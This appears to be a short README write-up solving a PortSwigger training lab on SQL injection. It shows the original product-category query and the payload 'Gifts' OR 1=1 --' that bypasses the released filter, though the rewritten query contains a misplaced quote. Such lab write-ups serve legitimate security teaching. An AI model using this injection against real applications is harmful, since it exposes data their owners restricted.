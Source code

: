 ## Lab Description :

![image](https://github.com/arafatulislamnahid/portswigger_labs/assets/55046962/868cf552-9200-43ad-aaad-d94298775c34)


## Solution : 

Query made - 

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
```

To view all the products (both released and not released) , we include **Gifts' OR 1=1 --** so that it the condition evaluates to TRUE & displayed all the gifts.

The query looks like 

```sql
SELECT * FROM products WHERE category = 'Gifts' 'OR 1=1 --' AND released = 1`
```

![image](https://github.com/arafatulislamnahid/portswigger_labs/assets/55046962/4335855c-1036-4823-bcca-8ca4a8c9a035)
